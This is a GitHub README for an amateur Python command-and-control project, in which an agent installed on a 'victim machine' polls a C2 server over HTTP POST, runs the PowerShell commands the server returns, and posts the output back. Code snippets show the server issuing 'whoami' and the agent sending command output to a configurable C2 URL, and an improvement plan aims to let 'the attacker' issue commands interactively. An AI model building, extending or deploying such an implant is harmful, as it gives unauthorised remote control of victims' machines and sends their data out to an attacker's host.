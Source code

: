 # pyc2-c2overPOSTresponse

This project is still under development. This is a simmple C2 server that allows you to run Powershell commands. 
I am still a n33b at this but I believe that I will get better through help and suggestions from the community : ) 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage

For now you can only ran a command at a time. Open server.py and enter the command you want to be in the http response as shown below

``` 
        response_string = "whoami"

        # Set the response headers
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.send_header("Content-Length", len(response_string))
        self.end_headers()

        #send response string 
        self.wfile.write(response_string.encode('utf-8'))
```

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
if command_to_run:
            output = run_powershell_command(command_to_run)     
        time.sleep(10)  
        count =+ 1
```

## Improvement Plan

1. Create a mechanism that lets the attacker enter commands before the next request 

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
